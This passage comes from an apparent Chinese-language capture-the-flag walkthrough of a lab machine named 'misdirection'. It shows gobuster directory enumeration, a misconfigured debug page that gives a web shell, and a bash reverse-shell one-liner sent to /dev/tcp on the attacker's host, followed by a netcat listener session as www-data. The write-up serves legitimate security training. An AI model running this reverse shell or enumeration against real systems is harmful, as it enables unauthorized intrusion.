   ```
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              txt,php,sql
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.php                 (Status: 403) [Size: 292]
  /help                 (Status: 301) [Size: 316] [--> http://192.168.2.9:8080/help/]
  /images               (Status: 301) [Size: 318] [--> http://192.168.2.9:8080/images/]
  /scripts              (Status: 301) [Size: 319] [--> http://192.168.2.9:8080/scripts/]
  /css                  (Status: 301) [Size: 315] [--> http://192.168.2.9:8080/css/]
  /wordpress            (Status: 301) [Size: 321] [--> http://192.168.2.9:8080/wordpress/]
  /development          (Status: 301) [Size: 323] [--> http://192.168.2.9:8080/development/]
  /manual               (Status: 301) [Size: 318] [--> http://192.168.2.9:8080/manual/]
  /js                   (Status: 301) [Size: 314] [--> http://192.168.2.9:8080/js/]
  /shell                (Status: 301) [Size: 317] [--> http://192.168.2.9:8080/shell/]
  /debug                (Status: 301) [Size: 317] [--> http://192.168.2.9:8080/debug/]
  /.php                 (Status: 403) [Size: 292]
  /server-status        (Status: 403) [Size: 301]
  Progress: 882240 / 882244 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```

- 由于管理员配置错误,导致前台可以直接访问shell,相当于获得了初始shell



### 获得初始shell

- debug模式

- ![image-20230821113325566](https://raw.githubusercontent.com/r0o983/images/main/202308211133724.png)

- 反弹到本地主机操作.`bash -c "/bin/bash -i >& /dev/tcp/192.168.2.2/1234 0>&1";`

- 本地开启监听,等待连接

- ```shell
  └─$ nc -nvlp 1234
  listening on [any] 1234 ...
  connect to [192.168.2.2] from (UNKNOWN) [192.168.2.9] 37912
  bash: cannot set terminal process group (1046): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@misdirection:/var/www/html/debug$ uname -a
  uname -a
  Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  www-data@misdirection:/var/www/html/debug$ ip a 
  ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 00:0c:29:aa:9e:2f brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.9/24 brd 192.168.2.255 scope global dynamic ens33
         valid_lft 1480sec preferred_lft 1480sec